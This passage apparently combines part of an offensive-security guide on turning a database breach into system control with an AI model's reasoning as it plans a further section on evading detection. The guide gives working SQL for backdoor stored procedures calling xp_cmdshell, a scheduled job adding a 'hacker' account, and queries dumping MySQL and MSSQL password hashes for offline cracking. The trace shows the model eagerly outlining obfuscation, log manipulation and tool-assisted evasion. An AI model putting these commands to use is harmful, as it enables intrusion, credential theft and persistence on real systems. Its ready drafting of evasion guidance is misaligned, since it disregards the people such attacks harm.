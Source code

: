 1. **Creating Persistent Backdoors**:  
   - **Stored Procedures/Triggers**:  
     ```sql  
     CREATE PROCEDURE dbo.Backdoor()  
     AS  
     EXEC xp_cmdshell 'netsh add helper C:\malware.dll';  
     ```  
   - **Scheduled Jobs**:  
     ```sql  
     CREATE EVENT recurring_backdoor  
     ON SCHEDULE EVERY 1 HOUR  
     DO EXECUTE IMMEDIATE 'SELECT sys_exec(''net user hacker Pass123$ /add'')';  
     ```  

2. **Extracting Sensitive Data**:  
   - **MySQL User Hashes**:  
     ```sql  
     SELECT User, authentication_string FROM mysql.user;  
     ```  
     Hashes can be cracked offline using tools like `hashcat`.  

   - **MSSQL Credentials**:  
     ```sql  
     SELECT name, password_hash FROM sys.sql_logins;  
     ```  

3. **Lateral Movement**:  
   - Use extracted credentials to access other systems or databases.  
   - Deploy web shells or reverse shells via database write permissions.  

---

#### **Critical Risks and Mitigation**  
- **Risk**: Full system compromise, data exfiltration, and ransomware deployment.  
- **Mitigation**:  
  - Restrict database user privileges to the minimum required.  
  - Disable dangerous stored procedures (e.g., `xp_cmdshell`).  
  - Monitor for unauthorized privilege changes or unusual database activity.  

By combining these techniques, attackers can transition from a database breach to full system control, underscoring the importance of robust access controls and regular security audits.


Okay, I need to write Section 8: Evading Detection and Maintaining Access based on the provided information. Let me start by understanding the key points from the user's outline and the previous sections.

The user mentioned evasion techniques like payload obfuscation, slow HTTP requests, and polymorphic payloads. Persistence mechanisms include stored procedures, scheduled jobs, web shells, backdoor accounts, and log manipulation. They also want tool-assisted evasion examples with SQLMap and Metasploit. The section should be comprehensive with detailed paragraphs and maybe some tables.

First, I'll structure the section into subsections for clarity. The main sections would be Evasion Techniques, Persistence Mechanisms, Maintaining Access, and Tool-Assisted Evasion. Each subsection needs detailed explanations and examples.

